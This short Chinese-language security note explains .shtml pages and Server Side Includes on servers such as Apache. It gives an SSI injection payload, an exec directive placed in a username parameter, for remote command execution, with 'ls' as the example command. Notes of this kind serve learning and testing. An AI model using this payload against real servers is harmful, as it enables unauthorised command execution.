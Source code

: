shtml是一种特殊的html。需要运行在支持SSI的服务器，如apache。简单来说就是能根据命令动态回显网页的某个部分，比如时间。
可以注入，用来远程命令执行。 格式：  
```
?username=<!--#exec cmd="命令"-->

?username=<!--#exec cmd="ls"-->
```